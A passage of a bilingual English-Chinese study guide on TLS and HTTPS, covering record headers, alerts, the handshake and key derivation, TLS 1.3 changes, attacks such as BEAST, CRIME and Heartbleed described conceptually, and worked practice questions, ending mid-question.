The sequence number stops replay（重放）, deletion and reordering of records. It starts at 0, is zeroed at change_cipher_spec, and is at most \(2^{64}-1\).序号用于防止记录被重放、删除和重排。它从 0 开始，在 change_cipher_spec 时清零，最大为 \(2^{64}-1\)。
Padding is needed only for block ciphers. It is added after the MAC, so that the total is a multiple of the block length. It consists of padding bytes followed by one byte that gives their number. Variable padding frustrates traffic analysis based on message lengths.只有分组密码才需要填充。填充加在 MAC 之后，使总长度为分组长度的倍数。它由若干填充字节加上一个表示填充字节数的字节组成。可变长度的填充可以抵御基于消息长度的流量分析。
Step 3: the record header and the message formats第 3 步：记录首部与消息格式
The header has five bytes: content type (1), major version (1), minor version (1) and length (2).首部有五个字节：内容类型（1 字节）、主版本号（1 字节）、次版本号（1 字节）和长度（2 字节）。

- Content type: the protocol of the fragment.
change_cipher_specis 20,alert21,handshake22 andapplication_data23.内容类型：该片段所属的协议。change_cipher_spec为 20，alert为 21，handshake为 22，application_data为 23。 - Version: major 3. Minor 1 for TLS 1.0 and 3 for TLS 1.2.版本：主版本号为 3。TLS 1.0 的次版本号为 1，TLS 1.2 为 3。
- Length: fragment length in bytes, at most \(2^{14}+2048\).长度：片段长度，以字节为单位，最多为 \(2^{14}+2048\)。
| Protocol协议 | Message消息 |
|---|---|
| Change Cipher Spec密码规格变更 | 1 byte with value 11 字节，值为 1 |
| Alert警报 | level (1 byte), alert code (1 byte)级别（1 字节）、警报代码（1 字节） |
| Handshake握手 | type (1 byte), length (3 bytes), content (≥ 0 bytes)类型（1 字节）、长度（3 字节）、内容（≥ 0 字节） |
| Application data应用数据 | opaque content不透明内容 |
Step 4: Change Cipher Spec and Alert第 4 步：密码规格变更与警报
In words: Change Cipher Spec = "from now on use the new keys"; Alert = a two-byte warning or error message.用文字表述：密码规格变更 = “从现在起使用新密钥”；警报 = 两字节的警告或错误消息
The Change Cipher Spec Protocol has one message of one byte with value 1. It copies the pending state into the current state, so the connection switches to the new cipher suite. It is sent under the old state.密码规格变更协议只有一条消息，长度为一字节，值为 1。它把待定状态复制为当前状态，因此连接切换到新的密码套件。该消息在旧状态下发送。
The Alert Protocol carries two bytes: a level and a code. The level is warning (1) or fatal (2). Alerts are compressed and encrypted under the current state. A fatal alert ends the connection at once. Other connections of the session may continue, but no new connection may start on it.警报协议携带两个字节：一个级别和一个代码。级别为 warning（1）或 fatal（2）。警报在当前状态下压缩并加密。致命警报会立即结束连接。同一会话的其他连接可以继续，但不得在该会话上新建连接。
| Alert警报 | Level等级 | Meaning含义 |
|---|---|---|
bad_record_mac |
fatal致命 | a record has a wrong MAC记录的 MAC 错误 |
handshake_failure |
fatal致命 | no acceptable security parameters没有可接受的安全参数 |
unsupported_certificate |
warning警告 | the certificate type is not supported不支持该证书类型 |
close_notify |
warning警告 | the sender sends no more data on this connection发送方在该连接上不再发送数据 |
Practice练习
Q1. (Calculation) A server sends a 40,000-byte message with HMAC-SHA-1 (20-byte MAC) and AES-128-CBC (16-byte blocks), without compression. Ignore explicit IVs. How many records are needed, and what are the minimum padding, the encrypted length and the size on the wire of each? What is the total overhead?Q1.（计算）服务器发送一条 40,000 字节的消息，使用 HMAC-SHA-1（20 字节 MAC）和 AES-128-CBC（16 字节分组），不压缩。忽略显式 IV。需要多少条记录？每条记录的最小填充、加密后长度和线上大小分别是多少？总开销是多少？
Answer
Fragments hold at most 16,384 bytes: \(40{,}000=2\times16{,}384+7{,}232\), so 3 records.每个片段至多容纳 16,384 字节：\(40{,}000=2\times16{,}384+7{,}232\)，因此需要 3 条记录。
Full fragment: \(L=16{,}384+20+1=16{,}405\), and \(16{,}405\bmod16=5\), so \(p=11\); encrypted length \(16{,}416=1{,}026\) blocks; with the 5-byte header, 16,421 bytes.完整片段：\(L=16{,}384+20+1=16{,}405\)，再加 \(16{,}405\bmod16=5\)，因此 \(p=11\)；加密后长度为 \(16{,}416=1{,}026\) 个分组；加上 5 字节头部，共 16,421 字节。
Last fragment: \(L=7{,}232+21=7{,}253\), again \(\bmod16=5\), so \(p=11\); encrypted length \(7{,}264=454\) blocks; on the wire 7,269 bytes.最后一个片段：\(L=7{,}232+21=7{,}253\)，同样再加 \(\bmod16=5\)，因此 \(p=11\)；加密后长度为 \(7{,}264=454\) 个分组；线上共 7,269 字节。
Total \(2\times16{,}421+7{,}269=40{,}111\) bytes, so the overhead is 111 bytes, about 0.28 %.线上总计 \(2\times16{,}421+7{,}269=40{,}111\) 字节，因此开销为 111 字节，约 0.28%。
Q2. (Explain) Can a TLS receiver put records that arrive out of order back into order? Why or why not?Q2.（解释）TLS 接收方能否把乱序到达的记录重新排序？为什么？
Answer
No. Records carry no sequence number. Each side keeps an implicit 64-bit counter per direction (reset to 0 at change_cipher_spec) and the counter is an input of the MAC. A record that arrives out of order is checked against the wrong counter value, its MAC fails, and the receiver sends the fatal alert bad_record_mac and ends the connection. TCP already delivers bytes in order, so honest traffic never needs reordering; reordering by an attacker is detected.不能。记录中不携带序号。双方为每个方向各维护一个隐式的 64 位计数器（在 change_cipher_spec 时重置为 0），该计数器是 MAC 的输入之一。乱序到达的记录会用错误的计数器值进行校验，其 MAC 校验失败，接收方发送致命警报 bad_record_mac 并结束连接。TCP 本身已保证字节按序交付，因此正常流量从不需要重新排序；攻击者造成的重排则会被检测到。
Q3. (Why) Why does TLS have a separate Change Cipher Spec Protocol instead of a change_cipher_spec message inside the Handshake Protocol?Q3.（原因）为什么 TLS 要单独设立密码规格变更协议，而不是在握手协议中使用 change_cipher_spec 消息？
Answer
The message negotiates nothing; it commands the Record Protocol to switch from the current to the pending state at an exact point in the record stream. As its own content type it is handled by the record layer itself and can be sent without a full handshake: a resumed session has no key exchange but must still activate its new keys. It is also not part of the handshake messages that are hashed into finished.该消息不协商任何内容，它指示记录协议在记录流的确切位置从当前状态切换到待定状态。作为独立的内容类型，它由记录层自行处理，可以在不完成完整握手的情况下发送：恢复的会话没有密钥交换，但仍须激活其新密钥。它也不属于被散列进 finished 的握手消息。
TLS Handshake Protocol and Key Derivation ★★★TLS 握手协议与密钥派生
Goal. Describe the full handshake message by message with sender and purpose, compare the four key exchange methods, and derive master secret and key block with the PRF, including their lengths.目标。 逐条描述完整握手，说明每条消息的发送方和目的，比较四种密钥交换方法，并用 PRF 推导主密钥和密钥块，包括它们的长度。
Step 1: the four phases message by message第 1 步：逐条消息看四个阶段
In words: the handshake agrees on algorithms, the server proves who it is, the client sends its half of the key, and both sides switch to the new keys and check each other.用文字表述：握手协商算法，服务器证明自己的身份，客户端发送它那一半的密钥，双方切换到新密钥并相互校验
Before any application data is sent, client and server authenticate each other and negotiate the cipher suite and the keys. Every handshake message has a type (1 byte), a length (3 bytes) and content.在发送任何应用数据之前，客户端和服务器需要互相认证，并协商密码套件和密钥。每条握手消息都有类型（1 字节）、长度（3 字节）和内容。

| Phase阶段 | Message (sender)消息（发送方） | Content and purpose内容与用途 |
|---|---|---|
| 1 | client_hello (C) |
version (highest supported), random (32-bit timestamp + 28 random bytes), session ID (0 = new session), cipher suites by preference, compression methods版本（支持的最高版本）、随机数（32 位时间戳加 28 字节随机数）、会话 ID（0 表示新会话）、按偏好排列的密码套件、压缩方法 |
| 1 | server_hello (S) |
version = lower of the client's and the server's highest; independent random; session ID (echoed if nonzero); the chosen cipher suite and compression method版本取客户端与服务器各自支持的最高版本中较低者；独立的随机数；会话 ID（非零时原样回传）；所选的密码套件与压缩方法 |
| 2 | certificate (S) |
X.509v3 chain; required except for anonymous DHX.509v3 证书链；除匿名 DH 外必需 |
| 2 | server_key_exchange (S) |
parameters and signature; only if the method needs it参数与签名；仅当该方法需要时发送 |
| 2 | certificate_request (S) |
certificate types and acceptable CAs; optional证书类型与可接受的 CA；可选 |
| 2 | server_hello_done (S) |
no content; always sent; the server then waits无内容；总是发送；随后服务器等待 |
| 3 | certificate (C) |
only if requested (otherwise a no_certificate alert)仅在被请求时发送（否则为 no_certificate 警报） |
| 3 | client_key_exchange (C) |
always; content depends on the method总是发送；内容取决于所用的方法 |
| 3 | certificate_verify (C) |
signature over all earlier handshake messages对之前所有握手消息的签名 |
| 4 | change_cipher_spec (C, then S) |
sent by the Change Cipher Spec Protocol; pending state becomes current由密码规格变更协议发送；待定状态变为当前状态 |
| 4 | finished (C, then S) |
first message under the new keys; verifies key exchange and authentication在新密钥下发送的第一条消息；用于验证密钥交换与认证 |
Two more points. hello_request (no content) lets the server ask the client for a new handshake. A cipher suite（密码套件）names a key exchange method and a CipherSpec. The CipherSpec holds the cipher algorithm, the MAC algorithm, the stream or block type, the exportable flag, the hash size (0, 16 or 20 bytes), the key material and the IV size.还有两点。hello_request（无内容）让服务器要求客户端重新握手。密码套件指定密钥交换方法和 CipherSpec。CipherSpec 包括：加密算法、MAC 算法、流式或分组类型、可出口标志、散列长度（0、16 或 20 字节）、密钥材料以及 IV 长度。
The most common case is RSA key exchange without client authentication. Here it is as a numbered sequence.最常见的情况是不做客户端认证的 RSA 密钥交换。下面按编号顺序列出。
- C sends
client_hello: "These are my versions, my random, my cipher suites." Purpose: offer choices.C 发送client_hello：“这是我的版本、我的随机数和我的密码套件。”目的：提供选择。 - S sends
server_hello: "I choose this version and this cipher suite; here is my random." Purpose: agree on algorithms.S 发送server_hello：“我选定这个版本和这个密码套件；这是我的随机数。”目的：协商算法。 - S sends
certificate: its X.509 chain. Purpose: let the client check the server's identity.S 发送certificate：它的 X.509 证书链。目的：让客户端检查服务器的身份。 - S sends
server_hello_done: "I am finished for now." Purpose: mark the end of phase 2.S 发送server_hello_done：“暂时到此为止。”目的：标记第 2 阶段结束。 - C sends
client_key_exchange: a 48-byte pre-master secret encrypted with the server's public key. Purpose: give the server the shared secret.C 发送client_key_exchange：用服务器公钥加密的 48 字节预主密钥。目的：把共享秘密交给服务器。 - C sends
change_cipher_spec, thenfinished. Purpose: switch to the new keys and prove that the client holds them.C 先发送change_cipher_spec，然后发送finished。目的：切换到新密钥，并证明客户端持有这些密钥。 - S sends
change_cipher_spec, thenfinished. Purpose: the same, from the server.S 先发送change_cipher_spec，然后发送finished。目的：同样地，由服务器证明。
Absent here: server_key_exchange (not needed with an RSA encryption key), certificate_request, and the client's certificate and certificate_verify.这里没有 server_key_exchange（用 RSA 加密密钥时不需要）、certificate_request，以及客户端的 certificate 和 certificate_verify。
Step 2: key exchange methods第 2 步：密钥交换方法
In words: the methods differ in where the pre-master secret comes from and whether a stolen long-term key exposes old sessions.用文字表述：各方法的区别在于预主密钥从哪里来，以及一把被盗的长期密钥是否会暴露以前的会话
| Method方法 | Server side服务器端 | Properties特性 |
|---|---|---|
| RSA | certificate with an RSA key (a signature-only key needs a temporary RSA key in server_key_exchange)带 RSA 密钥的证书（仅用于签名的密钥需要在 server_key_exchange 中使用临时 RSA 密钥） |
client encrypts a 48-byte pre-master secret under it; a stolen server key exposes all recorded sessions客户端用它加密 48 字节的预主密钥；服务器密钥一旦被窃取，所有已记录的会话都会暴露 |
| Fixed DH固定 DH | certificate holding DH parameters signed by the CA; no server_key_exchange证书中包含由 CA 签名的 DH 参数；无 server_key_exchange |
same key for the same pair every time同一对通信方每次都使用相同的密钥 |
| Ephemeral DH临时 DH | server_key_exchange: \(p\), \(g\), public value, signed with the server's RSA or DSS keyserver_key_exchange：\(p\)、\(g\)、公开值，并以服务器的 RSA 或 DSS 密钥签名 |
fresh authenticated key per session: most secure每个会话使用新的、经过认证的密钥：安全性最高 |
| Anonymous DH匿名 DH | server_key_exchange: \(p\), \(g\), public value, unsigned |
no authentication; a man-in-the-middle（中间人）can run DH with both sides无认证；中间人可以分别与双方执行 DH |
So server_key_exchange is sent for anonymous DH, ephemeral DH and RSA with a signature-only key. It is omitted for RSA and fixed DH. With fixed DH, the client's client_key_exchange is null if its certificate already holds its DH parameters.因此，匿名 DH、临时 DH 以及仅用于签名的 RSA 密钥要发送 server_key_exchange。对于 RSA 和固定 DH 则省略。对于固定 DH，如果客户端证书中已经包含它的 DH 参数，则客户端的 client_key_exchange 为空。
Step 3: signatures and the Finished message第 3 步：签名与 Finished 消息
In words: the signatures bind the key to this exchange, and finished proves that nobody changed the earlier messages.用文字表述：签名把密钥与本次交换绑定在一起，finished 证明没有人改动过之前的消息
The signed key-exchange parameters also cover both nonces. This prevents replay and misrepresentation.带签名的密钥交换参数同时覆盖两个随机数。这可以防止重放和冒充。
certificate_verify is the client's signature over the MD5 and SHA-1 hashes of all handshake messages before it. Someone who only misuses the client's certificate cannot produce it.certificate_verify 是客户端对之前所有握手消息的 MD5 和 SHA-1 散列值的签名。仅仅滥用客户端证书的人无法生成它。
It proves that both sides derived the same keys and saw the same messages. Tampering with earlier cleartext messages, for example removing strong cipher suites, is detected.它证明双方推导出了相同的密钥，并且看到了相同的消息。篡改之前明文发送的消息，例如删除强密码套件，都会被发现。
Step 4: master secret, key block and PRF第 4 步：主密钥、密钥块与 PRF
In words: the pre-master secret is mixed with both randoms into the master secret, and the master secret is stretched into all the keys.用文字表述：预主密钥与两个随机数混合成主密钥，主密钥再扩展成所有的密钥
The master secret（主密钥）is a 48-byte (384-bit) value. The pre-master secret（预主密钥）comes first. With RSA the client generates 48 bytes and sends them encrypted. With DH both sides compute the shared DH value.主密钥是 48 字节（384 位）的值。预主密钥先于它产生。使用 RSA 时，客户端生成 48 字节并加密发送。使用 DH 时，双方各自计算共享的 DH 值。
The randoms act as salt. The same pre-master secret gives different keys on every connection. The PRF chains HMAC calls to make output of any length.随机数起盐的作用。同一个预主密钥在每条连接上都会得到不同的密钥。PRF 链式调用 HMAC，从而产生任意长度的输出。
Practice练习
Q1. (Trace) A client uses RSA key exchange with a server whose certificate holds an RSA encryption key; the server does not ask for a client certificate. List every message of the full handshake in order, with its sender. Which messages of the maximal handshake are absent, and how many round trips are needed?Q1.（手工演算）客户端使用 RSA 密钥交换，服务器的证书中包含 RSA 加密密钥；服务器不要求客户端证书。按顺序列出完整握手的每条消息及其发送方。最大握手中有哪些消息缺失？需要多少个往返？
Answer
C→S: client_hello. S→C: server_hello, certificate, server_hello_done. C→S: client_key_exchange (48-byte pre-master secret encrypted under the server's public key), change_cipher_spec, finished. S→C: change_cipher_spec, finished.C→S：client_hello。S→C：server_hello、certificate、server_hello_done。C→S：client_key_exchange（用服务器公钥加密的 48 字节预主密钥）、change_cipher_spec、finished。S→C：change_cipher_spec、finished。
Absent: server_key_exchange (RSA with an encryption-capable certificate), certificate_request, the client's certificate and certificate_verify. There are four flights, so two round trips before application data (after the TCP handshake).缺失的消息包括：server_key_exchange（证书可用于加密的 RSA）、certificate_request，以及客户端的 certificate 和 certificate_verify。共四个飞行段，因此在应用数据之前需要两次往返（TCP 握手之后）。
Q2. (Calculation) A cipher suite uses HMAC-SHA-1 (20-byte MAC keys) and AES-128-CBC (16-byte keys, 16-byte IVs). How long is the key block? With \(P_{\text{SHA256}}\), how many iterations and HMAC calls are needed, and how many bytes are discarded? In what order is the key block cut?Q2.（计算）一个密码套件使用 HMAC-SHA-1（20 字节 MAC 密钥）和 AES-128-CBC（16 字节密钥，16 字节 IV）。密钥块有多长？使用 \(P_{\text{SHA256}}\) 时，需要多少次迭代和 HMAC 调用，丢弃多少字节？密钥块按什么顺序切分？
Answer
Key block: \(2\times20+2\times16+2\times16=104\) bytes. Iterations: \(\lceil104/32\rceil=4\), producing 128 bytes, so 24 are discarded. Each iteration has 2 HMAC calls, so 8 HMAC calls (16 hash calls). Order: client write MAC secret (20), server write MAC secret (20), client write key (16), server write key (16), client write IV (16), server write IV (16).密钥块：\(2\times20+2\times16+2\times16=104\) 字节。迭代次数：\(\lceil104/32\rceil=4\)，共生成 128 字节，因此丢弃 24 字节。每次迭代包含 2 次 HMAC 调用，因此共 8 次 HMAC 调用（16 次散列调用）。顺序：客户端写 MAC 密钥（20）、服务器写 MAC 密钥（20）、客户端写密钥（16）、服务器写密钥（16）、客户端写 IV（16）、服务器写 IV（16）。
Q3. (Why) (a) Why do both hello randoms enter the master secret and the signature in server_key_exchange? (b) What does finished prove, and what does the record MAC on it add?Q3.（原因）（a）为什么客户端和服务器的 Hello 随机数都要进入主密钥，以及 server_key_exchange 中的签名？（b）finished 证明了什么？其上的记录 MAC 又增加了什么？
Answer
(a) The randoms are fresh nonces. They make master secret and keys unique to this connection even if the pre-master secret or session is reused, and they stop an attacker from replaying recorded handshake messages or old signed parameters, because the signature binds the parameters to this exchange.（a）这些随机数是新鲜的一次性随机数（nonce）。即使预主密钥或会话被重用，它们也能使主密钥和密钥只属于本次连接；它们还能阻止攻击者重放已记录的握手消息或旧的签名参数，因为签名把这些参数绑定到本次交换。
(b) finished is a PRF over the master secret and a hash of all handshake messages, sent under the new keys. It shows that both sides computed the same keys and saw identical handshake messages; if an attacker changed an earlier cleartext message, the hashes differ and the peer aborts. The MAC on that record is the first check that the new MAC secrets agree.（b）finished 是对主密钥和所有握手消息的散列值进行 PRF 运算的结果，在新密钥下发送。它表明双方计算出了相同的密钥，并且看到的握手消息完全一致；若攻击者修改了之前的明文消息，散列值就会不同，对端随即中止握手。该记录上的 MAC 是对新 MAC 密钥是否一致的第一项检查。
TLS 1.3, Attacks and Heartbleed ★★TLS 1.3、攻击与 Heartbleed
Goal. State the changes of TLS 1.3 with the reason for each, explain forward secrecy, name the attacks on TLS, and explain Heartbleed.目标。 说明 TLS 1.3 的每项改动及其原因，解释前向保密，列举针对 TLS 的攻击，并解释 Heartbleed。
Step 1: what TLS 1.3 changes第 1 步：TLS 1.3 改了什么
In words: TLS 1.3 = delete the old options that caused attacks, keep only (EC)DHE, and finish the handshake in one round trip.用文字表述：TLS 1.3 = 删除导致攻击的旧选项，只保留 (EC)DHE，并把握手压缩到一次往返完成
TLS 1.3 deletes legacy options. This shrinks the attack surface and the chance of coding errors.TLS 1.3 删除了遗留选项。这缩小了攻击面，也减少了编码错误的机会。
| Removed or changed删除或改动 | Why原因 |
|---|---|
| Compression压缩 | leaks secrets through record lengths (CRIME)通过记录长度泄露机密（CRIME） |
| Ciphers without authenticated encryption (CBC with MAC, RC4)不具备认证加密的密码（带 MAC 的 CBC、RC4） | MAC-then-encrypt padding attacks, biased RC4; only AEAD ciphers remain (AES-GCM, AES-CCM, ChaCha20-Poly1305)MAC 后加密的填充攻击、RC4 的偏置；仅保留 AEAD 密码（AES-GCM、AES-CCM、ChaCha20-Poly1305） |
| Static RSA and static DH key exchange静态 RSA 与静态 DH 密钥交换 | a stolen long-term key exposes all recorded sessions长期密钥被窃取后，所有已记录的会话都会暴露 |
| Renegotiation重协商 | handshake-flood DoS and renegotiation attacks握手洪泛式拒绝服务与重协商攻击 |
| Change Cipher Spec Protocol密码规格变更协议 | keys switch implicitly after the hellos (a dummy record may remain for middlebox compatibility)密钥在 Hello 消息之后隐式切换（为兼容中间盒，可能保留一条虚拟记录） |
32-bit timestamp in random; MD5 and SHA-224 signaturesrandom 中的 32 位时间戳；MD5 与 SHA-224 签名 |
obsolete or weak已过时或较弱 |
Key exchange uses only Diffie–Hellman or elliptic-curve DH (written (EC)DHE) with fresh keys. RSA remains for signatures only. Each handshake negotiates a new key, so TLS 1.3 gives forward secrecy（前向保密）.密钥交换只使用带有新鲜密钥的 Diffie–Hellman 或椭圆曲线 DH，写作 (EC)DHE。RSA 只保留用于签名。每次握手都协商一个新密钥，因此 TLS 1.3 提供前向保密。
The handshake needs one round trip. The client sends its key share in client_hello, before the cipher suite is agreed. The server then derives the keys before its first reply, and everything after server_hello is encrypted.握手只需要一次往返。客户端在协商密码套件之前，就在 client_hello 中发送它的密钥份额。服务器随后在第一次回复之前推导出密钥，并且 server_hello 之后的所有内容都加密。
Client Server
client_hello + key_share ------------------------->
<------------------------- server_hello + key_share
{encrypted_extensions}
{certificate*, certificate_verify*}
<------------------------- {finished}
{certificate*, certificate_verify*} ------------->
{finished} ------------------------->
[application data] <------------------------> [application data]
{ } encrypted with handshake keys [ ] encrypted with application keys * optional
Example: the round-trip time is 80 ms. TLS 1.2 needs 2 round trips for the handshake and TLS 1.3 needs 1. So TLS 1.3 saves 80 ms before the first HTTP request.例如，往返时间为 80 毫秒。TLS 1.2 握手需要 2 次往返，TLS 1.3 只需 1 次。因此，TLS 1.3 在发出第一个 HTTP 请求之前可节省 80 毫秒。
Step 2: attacks on SSL/TLS第 2 步：针对 SSL/TLS 的攻击
Attacks fall into four categories.攻击分为四类。
| Category类别 | Example示例 |
|---|---|
| Handshake握手 | 1998 attack on the formatting of RSA encryption, later refined and sped up1998 年针对 RSA 加密格式的攻击，之后被改进并加速 |
| Record and application data记录与应用数据 | BEAST (2011): practical chosen-plaintext attack that guesses plaintext for a known ciphertext (it exploits the predictable chained CBC IV). CRIME (2012): with TLS compression, the length of compressed records leaks secret cookies and enables session hijackingBEAST（2011）：实用的选择明文攻击，针对已知密文猜测明文（利用可预测的链式 CBC IV）。CRIME（2012）：启用 TLS 压缩时，压缩后记录的长度会泄露机密 Cookie，并使会话劫持成为可能。 |
| PKI | flawed certificate validation in common libraries (OpenSSL, GnuTLS, JSSE, cURL, PHP, Python)常用库（OpenSSL、GnuTLS、JSSE、cURL、PHP、Python）中存在缺陷的证书验证 |
| Other其他 | DoS by flooding a server with handshake requests or renegotiations, since the server does most of the work通过洪泛服务器的握手请求或重协商实施拒绝服务（DoS）攻击，因为大部分工作由服务器承担 |
Step 3: Heartbeat and Heartbleed第 3 步：心跳与 Heartbleed
In words: Heartbleed = the server trusted the length that the client claimed and sent back memory that it should not.用文字表述：Heartbleed = 服务器相信了客户端声称的长度，于是把本不该发出的内存内容发了回去
The Heartbeat Protocol runs over the Record Protocol. A heartbeat_request holds a payload length, a payload and random padding. The heartbeat_response must return an exact copy of the payload. It shows that the peer is alive and keeps idle connections open through firewalls.心跳协议运行在记录协议之上。一条 heartbeat_request 包含一个载荷长度、一段载荷和随机填充。heartbeat_response 必须原样返回载荷的完整副本。它用来说明对方仍然在线，并让空闲连接在防火墙中保持打开。
Heartbleed（心脏出血漏洞，2014）is a bug in OpenSSL's Heartbeat code. It is not a flaw of the TLS specification. The code copied the incoming message into a buffer and sent back as many bytes as the claimed payload length said. It did not compare the claim with the real message length.Heartbleed（心脏出血漏洞，2014）是 OpenSSL 心跳代码中的一个漏洞，不是 TLS 规范本身的缺陷。代码把收到的消息复制到缓冲区，并按声称的载荷长度返回字节数，却没有把声称的长度与实际消息长度进行比较。

Example: a request claims 65,535 bytes but carries 16. The reply holds the 16 bytes and 65,519 bytes of whatever lay next in memory: private keys, passwords, session data. The attack leaves no trace. The fix is a bounds check. Damage control means revoking and reissuing certificates and changing passwords.例如，一个请求声称有 65,535 字节，实际只带了 16 字节。回复中包含这 16 字节，以及随后 65,519 字节的内存内容：私钥、口令、会话数据。这种攻击不留痕迹。修复方法是加上边界检查。事后补救包括吊销并重新签发证书，以及更改口令。
Practice练习
Q1. (Calculation) The round-trip time is 80 ms. Starting from the TCP SYN, when can the client send its first HTTP request with (a) a full TLS 1.2 handshake and (b) TLS 1.3? Ignore processing time.Q1.（计算）往返时间为 80 ms。从 TCP SYN 开始计时，客户端在（a）完整的 TLS 1.2 握手和（b）TLS 1.3 两种情况下，最早何时能发送第一个 HTTP 请求？忽略处理时间。
Answer
The TCP handshake takes 1 RTT = 80 ms. (a) A full TLS 1.2 handshake takes 2 RTT = 160 ms, so the request leaves at 240 ms. (b) TLS 1.3 takes 1 RTT = 80 ms, so the request leaves at 160 ms. TLS 1.3 saves one round trip (80 ms) because the client's key share travels in client_hello.TCP 握手耗时 1 RTT = 80 ms。（a）完整的 TLS 1.2 握手耗时 2 RTT = 160 ms，因此请求在 240 ms 时发出。（b）TLS 1.3 耗时 1 RTT = 80 ms，因此请求在 160 ms 时发出。TLS 1.3 节省了一次往返（80 ms），因为客户端的密钥份额随 client_hello 一同发送。
Q2. (Beyond the pages) An attacker records all traffic of a server today and steals the server's long-term RSA private key next year. Which recorded sessions can he decrypt if they used (a) TLS 1.2 RSA key exchange, (b) ephemeral (EC)DH with the RSA key used only to sign? Define forward secrecy.Q2.（超出教材范围）攻击者今天记录了服务器的全部流量，并于次年窃取了服务器的长期 RSA 私钥。若这些会话使用了（a）TLS 1.2 RSA 密钥交换，或（b）临时 (EC)DH 且 RSA 密钥仅用于签名，则他能解密其中哪些会话？请定义前向保密。
Answer
(a) All of them: he decrypts each recorded client_key_exchange to get the pre-master secret, then computes master secret and key block from the public hello randoms. (b) None: the pre-master secret comes from fresh DH values that were deleted after the handshake, and the RSA key only signed the parameters, so it lets him impersonate the server in future but not read the past.（a）全部可以解密：他解密每条已记录的 client_key_exchange 得到预主密钥，然后根据公开的 Hello 随机数计算主密钥和密钥块。（b）一条也不能：预主密钥来自握手后已删除的新鲜 DH 值，而 RSA 密钥只用于签名参数，因此他能在未来冒充服务器，却无法读取过去的通信。
Forward secrecy means that compromising long-term keys does not reveal earlier session keys. TLS 1.3 therefore removes static RSA and static DH.前向保密意味着，长期密钥被攻破不会泄露更早的会话密钥。因此 TLS 1.3 删除了静态 RSA 与静态 DH。
思路：看会话密钥能否由长期私钥加上录下的明文消息重新算出。
HTTPS ★★★
Goal. State what HTTPS protects and what an eavesdropper still sees, describe how an HTTPS connection starts and closes, and decide what a client does when the closure is not clean.目标。 说明 HTTPS 保护什么、窃听者仍能看到什么，描述 HTTPS 连接如何建立和关闭，并判断当关闭不干净时客户端应当怎么做。
Step 1: what HTTPS is and what it protects第 1 步：HTTPS 是什么，保护什么
In words: HTTPS = ordinary HTTP, sent inside a TLS connection.用文字表述：HTTPS = 普通的 HTTP，放在 TLS 连接中发送
HTTPS (HTTP over TLS) means HTTP carried as TLS application data. URLs start with https:// and use port 443 instead of 80. Browsers show a padlock. It gives three protections.HTTPS（基于 TLS 的 HTTP）指作为 TLS 应用数据承载的 HTTP。URL 以 https:// 开头，使用端口 443 而不是 80。浏览器会显示锁形图标。它提供三项保护。
| Protection保护 | What it means含义 |
|---|---|
| Encryption加密 | The URL, document contents, form contents, cookies and HTTP headers are hidden from eavesdroppersURL、文档内容、表单内容、Cookie 和 HTTP 首部对窃听者隐藏 |
| Data integrity数据完整性 | Data cannot be modified or corrupted in transit without detection数据在传输中被修改或损坏时可以被发现 |
| Authentication认证 | The server's certificate shows that the user talks to the intended site, which defeats man-in-the-middle attacks服务器证书表明用户正在与预期的网站通信，从而防御中间人攻击 |
An eavesdropper still sees the IP addresses, the ports and the message sizes. The host name is usually visible too, through the DNS query and the TLS server-name field.窃听者仍能看到 IP 地址、端口和消息大小。主机名通常也能看到，它会出现在 DNS 查询和 TLS 的服务器名字段中。
Step 2: how a connection starts第 2 步：连接如何建立
In words: the HTTP client is also the TLS client; it first opens TCP, then TLS, then sends HTTP.用文字表述：HTTP 客户端同时也是 TLS 客户端；它先打开 TCP，再建立 TLS，然后发送 HTTP
- The client opens a TCP connection to the server's port 443.客户端与服务器的端口 443 建立 TCP 连接。
- The client sends
client_hello. The handshake of Section 19.3 runs.客户端发送client_hello。第 19.3 节的握手随即运行。 - When the handshake finishes, the client sends the first HTTP request as TLS application data.握手完成后，客户端把第一个 HTTP 请求作为 TLS 应用数据发送。
- The server answers inside the same TLS connection.服务器在同一条 TLS 连接内回复。
Three levels of connection are involved. At the HTTP level the client asks the layer below for a connection. At the TLS level a session supports one or more connections. At the TCP level a connection between the two TCP entities must exist first.这里涉及三个层次的连接。在 HTTP 层，客户端请求下层提供连接。在 TLS 层，一个会话可以支持一条或多条连接。在 TCP 层，两个 TCP 实体之间必须先存在一条 TCP 连接。
Step 3: how a connection closes第 3 步：连接如何关闭
In words: a clean close is announced by an authenticated close_notify; a silent TCP close may be an attack.用文字表述：正常关闭由经过认证的 close_notify 宣告；悄无声息的 TCP 关闭则可能是攻击
HTTP can announce closure with the header Connection: close. At the TLS level each side must send a close_notify alert before closing. A side may close right after sending its own alert (an "incomplete close"). It may reuse the session only if it knows, for example from HTTP message boundaries, that it has all the data it needs.HTTP 可以用首部 Connection: close 宣告关闭。在 TLS 层，每一方在关闭之前都必须发送一条 close_notify 警报。一方可以在发出自己的警报后立即关闭（即“不完全关闭”）。只有当它知道自己已经收到所需的全部数据（例如根据 HTTP 消息边界）时，才可以复用该会话。
A TCP close with neither close_notify nor Connection: close may be a server bug, a network error or an attack. So the client should issue a security warning. The reason: an attacker can inject a forged TCP FIN or RST to cut a download short. He cannot forge the authenticated close_notify, so its absence reveals truncation.既没有 close_notify 也没有 Connection: close 的 TCP 关闭，可能是服务器故障、网络错误，也可能是攻击。因此客户端应发出安全警告。原因是：攻击者可以注入伪造的 TCP FIN 或 RST，截断下载。但他无法伪造经过认证的 close_notify，因此它的缺失说明数据被截断。
Practice练习
Q1. (Explain) State what HTTPS encrypts and what an eavesdropper still learns. Which protection stops a man-in-the-middle from posing as the site?Q1.（解释）说明 HTTPS 加密了什么，以及窃听者仍然能获知什么。哪一种保护可以阻止中间人冒充该站点？
Answer
Encrypted: URL, document contents, form contents, cookies and HTTP headers. Still visible: IP addresses and ports (the host name usually too, through DNS and the TLS server-name field), message sizes and timing. Server authentication stops impersonation: the client checks the server's X.509 certificate chain during the handshake, and only the real server can sign with the matching private key.被加密的：URL、文档内容、表单内容、Cookie 和 HTTP 头部。仍然可见的：IP 地址和端口（通常也包括主机名，可通过 DNS 和 TLS 的服务器名称字段获得）、消息长度和时序。服务器认证可阻止冒充：客户端在握手期间检查服务器的 X.509 证书链，且只有真正的服务器才能用对应的私钥签名。
Q2. (Scenario) While a page loads, the client's TCP connection ends with no close_notify alert and no Connection: close header. What should the client do, and why? What does a clean closure look like?Q2.（情景分析）页面加载时，客户端的 TCP 连接在没有 close_notify 警报、也没有 Connection: close 头部的情况下结束。客户端应如何处理？为什么？正常关闭时是什么样子？
Answer
